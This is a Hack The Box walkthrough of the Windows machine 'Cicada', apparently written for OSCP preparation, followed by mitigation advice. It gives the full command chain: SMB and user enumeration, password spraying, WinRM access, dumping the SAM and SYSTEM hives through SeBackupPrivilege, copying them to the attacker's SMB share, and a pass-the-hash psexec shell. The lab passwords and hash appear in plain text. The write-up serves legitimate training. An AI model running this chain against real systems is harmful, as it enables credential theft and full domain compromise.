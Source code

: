 ```yaml
---
title: Cicada
date: 2025-05-30
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, AD, unauth-user-enumeration, SeBackupPrivilege-privesc] 
image: cicada.png
media_subpath: /assets/img/posts/2025-05-30-cicadaHTB/
---
```


## Introduction

In this walkthrough, I tackled *Cicada*, an easy Windows machine focused on Active Directory enumeration and privilege escalation. I began by enumerating the domain and identifying valid users. Exploring accessible SMB shares revealed plaintext passwords stored in files. I then performed a password spray attack, which granted me access. With user privileges, I identified that `SeBackupPrivilege` was enabled. I exploited this privilege to dump sensitive system files and ultimately gained a full SYSTEM shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 53

Version: 

Domain: **cicada.htb**

- **dig any DNS records**
    
    ```bash
    dig any cicada.htb @$IP
    ```
    
    ![image.png](image%202.png)
    
- **Zone Transfer**
    
    ```bash
    dig axfr @$IP cicada.htb
    ```
    
    ![image.png](image%203.png)
    

### Port 139/445

- **smbclient**
    
    ![image.png](image%204.png)
    
- **netexec**
    
    ```bash
    sudo nxc smb $IP -u 'randomuser' -p '' --shares
    ```
    
    ![image.png](image%205.png)
    
    - HR directory
        
        ```bash
        Default password - Cicada$M6Corpb*@Lp#nZp!8
        ```
        

### Port 5985 (WinRM)

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d <domain> --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

Nothing found here.

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

Nothing interesting

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=<RHOST>,DC=local" 
```

Nothing interesting

## Exploitation

I made a search also with `impacket-lookupsid`

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

![image.png](image%206.png)

Then checked on users:

```bash
sudo nxc smb $IP -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![image.png](image%207.png)

I tried getting a shell but didn’t succeed.

```bash
evil-winrm -i $IP -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

Further user enumeration reveal password stored in user description:

```bash
sudo nxc smb $IP -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

![image.png](image%208.png)

Unfortunately this account also cannot be used with evil-winrm.

But enumerating shares I see now we can read `DEV` directory:

```bash
sudo nxc smb $IP -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```

![image.png](image%209.png)

I found a script inside it where cleartext credentials of `emily.oscars` can be found.

Using these credentials finally I can get shell with evil-winrm.

```bash
evil-winrm -i $IP -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

## Privilege Escalation

Checking for privileges I have I found out that I have `SeBackupPrivilege` and `SeRestorePrivilege`:

![image.png](image%2010.png)

I can just leverage SeBackupPrivilege to copy SAM and SYSTEM registry hives and dump SAM hashes, and if local user login is allowed on the target get a shell as NT Authority\System with Administrator hash and psexec.

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV

reg save HKLM\SAM SAM.SAV
```

Transfer files over our machine:

```bash
sudo impacket-smbserver share -smb2support .
```

```bash
copy SAM.SAV \\10.10.14.12\share\SAM.SAV
copy SYSTEM.SAV \\10.10.14.12\share\SYSTEM.SAV
```

```bash
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

![image.png](image%2011.png)

```bash
impacket-psexec Administrator@$IP -hashes :2b87e7c93a3e8a0ea4a581937016f341
```

![image.png](image%2012.png)

## Credentials

```bash
michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8

david.orelious : aRt$Lp#7t*VQ!3

emily.oscars : Q!3@Lp#M6b*7t*Vt
```

## Mitigation

- Limit the use of `SeBackupPrivilege` to trusted administrative accounts only.
- Avoid storing plaintext passwords in file shares; enforce proper credential hygiene.
- Implement account lockout policies to prevent password spray attacks.
- Regularly audit SMB shares for sensitive data exposure.
- Apply least privilege principles and monitor for unusual privilege assignments.
